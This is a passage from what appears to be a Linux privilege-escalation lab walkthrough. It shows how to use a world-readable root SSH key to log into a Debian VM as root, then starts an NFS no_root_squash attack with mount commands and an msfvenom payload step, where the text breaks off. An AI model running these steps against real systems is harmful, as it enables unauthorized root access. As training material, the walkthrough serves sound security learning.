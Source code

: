 Sometimes users make backups of important files but fail to secure them with the correct permissions.

1. Look for hidden files & directories in the system root:

```
ls -la /
```

2. Note that there appears to be a hidden directory called .ssh. View the contents of the directory:

```
ls -l /.ssh
```

Note that there is a world-readable file called root_key. Further inspection of this file should indicate it is a private SSH key. The name of the file suggests it is for the root user.

3. Copy the key over to your Kali box (it's easier to just view the contents of the root_key file and copy/paste the key) and give it the correct permissions, otherwise your SSH client will refuse to use it:

```
chmod 600 root_key
```

4. Use the key to login to the Debian VM as the root account (change the IP accordingly):

```
ssh -i root_key root@10.10.10.10
```

##  NFS 

Files created via NFS inherit the remote user's ID. If the user is root, and root squashing is enabled, the ID will instead be set to the "nobody" user.

1. Check the NFS share configuration on the Debian VM:

```
cat /etc/exports
```

Note that the /tmp share has root squashing disabled.

2. On your Kali box, switch to your root user if you are not already running as root:

```
sudo su
```

3. Using Kali's root user, create a mount point on your Kali box and mount the /tmp share (update the IP accordingly):

```
mkdir /tmp/nfs
mount -o rw,vers=2 10.10.10.10:/tmp /tmp/nfs
```

4. Still using Kali's root user, generate a payload using msfvenom and save it to the mounted share (this payload simply calls /bin/bash):
